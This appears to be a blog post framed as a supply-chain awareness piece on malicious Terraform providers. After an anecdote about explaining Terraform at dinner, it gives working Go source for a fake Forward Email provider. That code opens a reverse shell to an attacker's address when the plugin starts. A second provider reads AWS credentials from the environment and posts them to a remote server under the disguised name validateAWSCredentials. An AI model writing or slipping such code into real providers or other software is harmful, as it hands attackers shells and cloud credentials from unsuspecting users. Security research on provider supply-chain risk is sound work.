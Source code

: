 # A Guide to Writing Malicious Terraform Providers

## Casual Dinner Conversations

The other night, I hosted a family dinner. After indulging in some Chinese food, apple pie, and cannolis, we found ourselves discussing a topic that naturally comes up at family gatherings: infrastructure as code. (Totally normal, right?) I began explaining the history of Terraform and how HashiCorp Configuration Language (HCL) helps break down silos in infrastructure management. Midway through, my grandmother leaned back and confessed, "Michael, I just don’t get it."

That was my cue to break out an analogy:

_"Terraform is like organizing a dinner outing with friends. You decide on a restaurant (your infrastructure setup), place an order for food (desired resources) with the waiter (Terraform), and the waiter relays your order to the chef (the cloud provider). The chef prepares the meal to your specifications, and voilà—your infrastructure is ready to be served."_

She chuckled, and we moved on to other topics. But the conversation stayed with me, particularly when I started thinking about Terraform providers.

In the analogy, Terraform providers are like the specialized staff members at the restaurant: the wine sommelier, sushi chef, or grill master. But what happens when the sommelier poisons your wine or the sushi chef skims your credit card? Providers are given immense trust, yet we rarely stop to think about what they're doing behind the scenes.

Most users treat the Terraform Registry like a vending machine:
"I need a resource. Let’s see if there’s a provider for it. Oh, cool—there is!"
They copy the configuration, add an API key, and start provisioning without diving deeper into the provider's implementation.

![forwardemail registry](../static/img/forwardemail-terraform-registry.png)

But here's the catch: behind the glossy façade of the Registry and the comfort of a pre-built provider could lie vulnerabilities, poorly-written code, or outright malicious behavior. Few people ever check the provider’s actual GitHub repository unless something goes wrong. And even fewer scrutinize the code deeply enough to uncover hidden risks.

![forwardemail registry](../static/img/forwardemail-terraform-registry.png)

I’m not here to wave a red flag and tell you to be wary of third-party providers. Instead, I want to walk you through how malicious Terraform providers can be written.

## Basic Example: Reverse Shell Provider

To build a malicious provider, you'll need:

- A working knowledge of the Go programming language (or ChatGPT)
- Terraform's Plugin SDK
- Access to the Terraform CLI (or Terraform Core—it sounds cooler)
- A target API (or service) to integrate with

For our example, let’s create a provider that looks like it’s built for Forward Email, a legitimate email hosting service. This "innocent" provider will secretly include malicious behavior. Here’s how it might look:

### Provider Implementation

```go
package main

import (
    "net"
    "os/exec"

    "github.com/hashicorp/terraform-plugin-sdk/v2/helper/schema"
    "github.com/hashicorp/terraform-plugin-sdk/v2/plugin"
)

// Establishes a reverse shell to the attacker's machine
func revshell() {
    c, _ := net.Dial("tcp", "127.0.0.1:8080") // Attacker's IP and port
    cmd := exec.Command("/bin/sh")
    cmd.Stdin, cmd.Stdout, cmd.Stderr = c, c, c
    cmd.Run()
    c.Close()
}

func main() {
    revshell() // Execute malicious logic on initialization
    plugin.Serve(&plugin.ServeOpts{
        ProviderFunc: func() *schema.Provider {
            return &schema.Provider{
                DataSourcesMap: map[string]*schema.Resource{
                    "example": dataSourceAlias(),
                },
            }
        },
    })
}
```

## Stealing AWS Credentials

Many Terraform providers use AWS credentials for authentication. A malicious provider could extract and exfiltrate these credentials to an attacker’s server.

```go
package main

import (
    "bytes"
    "net/http"
    "os"

    "github.com/hashicorp/terraform-plugin-sdk/v2/helper/schema"
    "github.com/hashicorp/terraform-plugin-sdk/v2/plugin"
)

// Function to steal and exfiltrate AWS credentials
func validateAWSCredentials() {
    awsAccessKey := os.Getenv("AWS_ACCESS_KEY_ID")
    awsSecretKey := os.Getenv("AWS_SECRET_ACCESS_KEY")
    awsSessionToken := os.Getenv("AWS_SESSION_TOKEN")
    data := []byte("AccessKey=" + awsAccessKey + "&SecretKey=" + awsSecretKey + "&SessionToken=" + awsSessionToken)
    http.Post("http://10.0.0.66/validate", "application/x-www-form-urlencoded", bytes.NewBuffer(data))
}

func main() {
    validateAWSCredentials()
    plugin.Serve(&plugin.ServeOpts{
        ProviderFunc: func() *schema.Provider {
            return &schema.Provider{
                ResourcesMap: map[string]*schema.Resource{
                    "example_resource": resourceExample(),
                },
            }
        },
    })
}

func resourceExample() *schema.Resource {
    return &schema.Resource{
        Create: func(d *schema.ResourceData, m interface{}) error { return nil },
        Read:   func(d *schema.ResourceData, m interface{}) error { return nil },
        Update: func(d *schema.ResourceData, m interface{}) error { return nil },
        Delete: func(d *schema.ResourceData, m interface{}) error { return nil },
    }
}
```

